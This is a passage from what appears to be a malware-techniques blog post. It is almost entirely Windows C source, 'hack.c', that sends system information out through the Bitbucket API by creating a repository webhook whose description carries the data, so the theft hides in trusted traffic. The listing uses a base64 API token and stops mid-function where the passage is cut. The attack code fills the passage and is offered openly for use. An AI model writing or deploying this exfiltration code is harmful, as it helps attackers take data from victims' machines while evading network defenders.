 Full source code looks lik this `hack.c`:    

```cpp
/*
 * hack.c
 * sending systeminfo via legit URL. Bitbucket API
 * author @cocomelonc
 * https://cocomelonc.github.io/malware/2025/08/29/malware-tricks-51.html
 */
#include <windows.h>
#include <winhttp.h>
#include <iphlpapi.h>
#include <stdio.h>

// echo -n '<username>:<API_TOKEN>' | base64
#define BITBUCKET_TOKEN_BASE64 "Y29...Rg==" // base64 username:token
#define BITBUCKET_WORKSPACE "meow-test" // replace with your workspace
#define BITBUCKET_REPO "meow-shellcode" // replace with your repo name

// send data to BitBucket using winhttp
int sendToBitbucket(const char* description) {
  HINTERNET hSession = NULL;
  HINTERNET hConnect = NULL;
  HINTERNET hRequest = NULL;

  char authHeader[512];
 
  // construct the request body
  char json_body[1024];
  snprintf(json_body, sizeof(json_body), 
    "{\"description\": \"%s\", \"url\": \"https://meow-meow-hack.com/\", \"active\": true, "
        "\"secret\": \"this_is_a_really_bad_secret\", \"events\": [\"repo:push\", \"issue:created\"]}",
    description);

  DWORD bytesRead;
  char buffer[2048];

  snprintf(authHeader, sizeof(authHeader), "Authorization: Basic %s", BITBUCKET_TOKEN_BASE64);
 
  hSession = WinHttpOpen(L"Agent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
  hConnect = WinHttpConnect(hSession, L"api.bitbucket.org", INTERNET_DEFAULT_HTTPS_PORT, 0);
 
  char path[512];
  snprintf(path, sizeof(path), "/2.0/repositories/%s/%s/hooks", BITBUCKET_WORKSPACE, BITBUCKET_REPO);
 
  wchar_t wpath[512];
  MultiByteToWideChar(CP_ACP, 0, path, -1, wpath, 512);
 
  hRequest = WinHttpOpenRequest(hConnect, L"POST", wpath, NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_SECURE);
 
  wchar_t wauthHeader[512];
  wchar_t wctypeHeader[] = L"Content-Type: application/json";
  MultiByteToWideChar(CP_ACP, 0, authHeader, -1, wauthHeader, 512);
 
  WinHttpAddRequestHeaders(hRequest, wauthHeader, -1, WINHTTP_ADDREQ_FLAG_ADD);
  WinHttpAddRequestHeaders(hRequest, wctypeHeader, -1, WINHTTP_ADDREQ_FLAG_ADD);
 
  WinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, (LPVOID)json_body, strlen(json_body), strlen(json_body), 0);
  WinHttpReceiveResponse(hRequest, NULL);
```